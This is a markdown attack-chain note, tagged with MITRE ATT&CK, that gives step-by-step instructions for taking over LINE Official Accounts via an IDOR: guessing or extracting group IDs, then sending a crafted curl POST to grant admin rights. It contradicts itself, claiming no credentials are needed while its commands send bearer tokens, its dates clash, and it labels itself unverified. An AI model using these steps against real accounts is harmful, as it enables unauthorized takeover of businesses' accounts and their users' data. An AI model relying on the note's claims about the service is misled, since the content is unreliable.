

---
tags:
  - idor
  - privilege-escalation
  - account-takeover
  - web
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Privilege Escalation]]'
commands:
  - '[[commands/curl-extract-group-id]]'
  - '[[commands/curl-assign-admin-rights]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Extract-or-Guess-LINE-Official-Account-Group-ID]]'
  - '[[procedures/Craft-IDOR-Request-to-Assign-Admin-Rights]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Privilege Escalation]]'
description: >-
  A multi-stage attack leveraging Insecure Direct Object Reference (IDOR) in the
  LINE Official Account system to extract or guess group IDs and escalate
  privileges to administrator, enabling full control over any target account.
skill_level: intermediate
impact_level: high
id: 4bb15dfc-abee-44d2-9970-9dc0bc980627
created_at: '2025-12-14T17:30:58.624Z'
updated_at: '2025-12-14T17:30:58.624Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Exploitation for Privilege Escalation]]'
---
# IDOR Exploitation in LINE Official Accounts for Arbitrary Admin Takeover

## Overview

This attack chain exploits an Insecure Direct Object Reference (IDOR) vulnerability in the LINE Official Account management system. Attackers can extract or guess group IDs from application responses without authentication, then craft unauthorized requests to assign themselves administrative privileges. This grants full control over any LINE Official Account, including broadcasting messages, managing users, and accessing sensitive data. The vulnerability stems from predictable group IDs and missing authorization checks on admin assignment endpoints.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for inspecting responses
- [[commands/curl-extract-group-id]] or similar HTTP client for requests

### Target Environment

- Web platform
- LINE Official Accounts service
- No specific ports required; operates over HTTPS

### Initial Access Requirements

- No prior credentials needed due to IDOR
- Network access to LINE's web endpoints
- Ability to interact with the LINE Official Account management interface

## Detailed Attack Procedures

### Step 1: Extract or Guess Group ID

procedure: [[procedures/Extract-or-Guess-LINE-Official-Account-Group-ID]]

**Objective**: Identify the target LINE Official Account's group ID by extracting it from application responses or guessing based on sequential patterns, bypassing authentication.

**Instructions**: Use [[commands/curl-extract-group-id]] to fetch account details and inspect responses for exposed group IDs. Alternatively, use browser developer tools to monitor network requests during normal account interactions, where group IDs appear in JSON payloads without protection.

```bash
curl -X GET "https://api.line.me/v2/bot/group/{account_id}/summary" -H "Authorization: Bearer {access_token}" | grep -o 'groupId":"[^"]*'
```

If IDs are sequential, guess by incrementing from known values (e.g., start from 1 and test).

**Expected Output**: JSON response containing the group ID, such as {"groupId": "1234567890abcdef"}.

**Success Indicators**:
- Group ID extracted from response
- Valid ID confirmed by subsequent API tests

### Step 2: Craft Admin Assignment Request

procedure: [[procedures/Craft-IDOR-Request-to-Assign-Admin-Rights]]

**Objective**: Exploit the IDOR by sending an unauthenticated or improperly authorized request to assign admin rights using the obtained group ID, achieving privilege escalation.

**Instructions**: Use [[commands/curl-assign-admin-rights]] to submit a manipulated POST request to the admin assignment endpoint, replacing the group ID with the target one. Omit or use a weak authorization header to bypass checks.

```bash
curl -X POST "https://api.line.me/v2/bot/group/{target_group_id}/members/permissions" \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer {attacker_token}" \
  -d '{"role": "admin"}'
```

Validate by querying the account's admin list to confirm elevation.

**Expected Output**: HTTP 200 response with updated permissions, e.g., {"role": "admin"}.

**Success Indicators**:
- Admin role assigned successfully
- Attacker can perform admin actions like broadcasting messages

## Attack Chain Summary

### Key Achievements

1. Bypassed authentication to access group IDs via IDOR
2. Escalated privileges to admin on arbitrary LINE Official Accounts
3. Achieved full account takeover, enabling data access and configuration changes

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Exploitation for Privilege Escalation]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Privilege Escalation]]

---
*Last updated: 2023-10-05T12:00:00Z*
